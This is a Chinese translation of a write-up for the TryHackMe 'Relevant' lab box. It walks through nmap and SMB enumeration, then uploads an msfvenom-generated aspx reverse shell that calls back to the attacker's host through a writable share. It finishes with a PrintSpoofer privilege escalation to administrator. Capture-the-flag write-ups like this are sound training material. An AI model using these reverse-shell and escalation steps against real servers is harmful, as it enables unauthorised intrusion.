




# 相关盒子(THM)的详细演练

> 原文：<https://infosecwriteups.com/detailed-walkthrough-on-relevant-box-thm-13fa7ae8d3e?source=collection_archive---------1----------------------->

让我们解决来自 Tryhackme 的名为“相关”的盒子

# 渗透测试方法

1.  **侦察**
2.  **枚举**
3.  **剥削**
4.  **权限提升**

在 [Tryhackme](https://tryhackme.com/room/relevant) 访问此框

# 侦察:-

Nmap:- Nmap 扫描显示 5 个端口是开放的，其中 139(NetBios)和 445(SMB)

Netbios 是一个允许不同计算机上的应用程序在局域网内通信的程序

**SMB**:-服务器消息块(SMB)是一种网络协议，使用户能够与远程计算机和服务器通信，以使用他们的资源或共享、打开和编辑文件。它也被称为服务器/客户机协议，因为服务器有一个可以与客户机共享的资源。

**中小企业如何运作？**

*   SMB 协议通过来回发送多个请求-响应消息来创建服务器和客户端之间的连接
*   想象一下，你的团队正在处理一个大项目，这个项目涉及到很多来回。您可能希望能够共享和编辑存储在一个位置的文件。SMB 协议将允许您的团队成员使用这些共享文件，就像它们在自己的硬盘上一样。即使他们中的一个人在世界的另一端出差，他们仍然可以访问和使用数据。
*   假设你办公室的打印机连接到接待员的电脑。如果您想要打印文档，您的计算机(客户端)会向接待员的计算机(服务器)发送打印请求，并使用 SMB 协议来完成打印。然后，服务器将发回一个响应，说明文件已排队、已打印，或者打印机用完了洋红色，无法执行任务。

Nmap

# 列举

因为我们知道 Smb 是开放的，所以我们可以使用一个名为`smbclient`的工具来列出连接到该网络的设备

SMB 客户端

*   由于有一个不常用的设备，我们可以转到该设备，现在我们已连接到 smb

*   当我们列出这个设备中的内容时，我们可以找到 passwords.txt，它是 base64 编码的。

***目录清单* :-**

*   虽然我们可以看到一个用户名和密码的兔子洞，但我们可以看到另一个端口(即 3389)正在运行类似于端口 80 的 web 服务
*   如果我们在该端口上列出一个目录，我们可以看到一个目录`nt4wrksv`处于打开状态，我们还可以看到一个同名的共享处于打开状态。所以如果我们做`http:<IP>/nt4wrksv/passwords.txt`，它列出了那个文本文件的内容

*   因为我们可以访问内容，并且我们有上传权限，我们可以做的是上传一个 aspx 反向外壳并获取外壳
*   使用此命令`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your-IP> LPORT=53 -f aspx -o rev.aspx`创建一个 aspx shell
*   如果我们做了`put rev.aspx`，它会被下载到 smb 共享上
*   然后，如果我们遍历到`http://<your-ip>:3389/nt4wrksv/rev.aspx`并启动一个反向 shell，我们就可以获得用户 shell
*   如果我们执行这个命令`type c:\users\bob\users.txt`会提供一个 user.txt 标志

# 特权升级

*   如果我们看到`whoami /priv`，它将列出 bob 用户可以访问的所有权限

*   如我们所见，有一个`SeImpersonatePrevilige`设置为启用。我们可以使用名为 [printspoofer](https://github.com/dievus/printspoofer) 的工具来获得 root 权限
*   使用`PrintSpoofer.exe -i -c cmd`获得 root 访问权限
*   然后，如果我们遍历到/users/administrator/desktop/root . txt，我们可以找到根标志